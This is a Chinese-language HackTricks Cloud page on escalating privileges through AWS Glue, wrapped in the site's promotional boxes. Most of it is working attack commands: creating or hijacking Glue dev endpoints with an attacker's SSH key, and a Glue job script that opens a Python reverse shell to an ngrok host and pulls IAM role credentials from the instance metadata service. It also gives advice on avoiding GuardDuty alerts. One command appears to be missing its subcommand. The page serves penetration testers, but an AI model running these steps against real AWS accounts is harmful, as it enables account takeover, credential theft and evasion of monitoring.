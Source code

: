 # AWS - Glue 权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在 **HackTricks中看到您的公司广告** 或 **下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

拥有 `iam:PassRole` 和 `glue:CreateDevEndpoint` 权限的攻击者可以**创建一个新的AWS Glue开发端点并将现有服务角色传递给它**。然后，他们可以SSH进入实例，并使用AWS CLI来访问该角色拥有的权限。
```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub
```
现在攻击者只需**SSH 连接到开发端点**即可访问角色凭证。
```bash
# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
即使在GuardDuty文档中没有特别指出，从Glue实例中泄露凭证也是一个坏主意。相反，**应该直接从新实例访问AWS API**。

**潜在影响：**提升至指定的glue服务角色权限。

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

拥有**`glue:UpdateDevEndpoint`**权限的攻击者将能够**更新现有Glue开发端点的关联SSH公钥**，然后通过SSH登录，并访问附加角色所拥有的权限。
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
攻击者现在只需**SSH 进入开发端点以访问角色凭证**。应直接从新实例访问 AWS API，以避免触发警报。

**潜在影响：**提升至使用的 glue 服务角色权限。

### `iam:PassRole`，(`glue:CreateJob` | `glue:UpdateJob`)，(`glue:StartJobRun` | `glue:CreateTrigger`)

拥有这些权限的攻击者可以**创建/更新作业，附加任何 glue 服务账户**并启动它。作业可以执行任意 python 代码，因此可以获得反向 shell，并用其**窃取附加角色的 IAM 凭证**。
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**潜在影响：** 提升至指定的glue服务角色权限。

### `glue:UpdateJob`

仅凭更新权限，攻击者就能窃取已附加角色的IAM凭证。

**潜在影响：** 提升至附加的glue服务角色权限。

<details>

<summary><strong>从零开始学习AWS黑客技术，成为</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您希望在**HackTricks中看到您的公司广告**或**以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
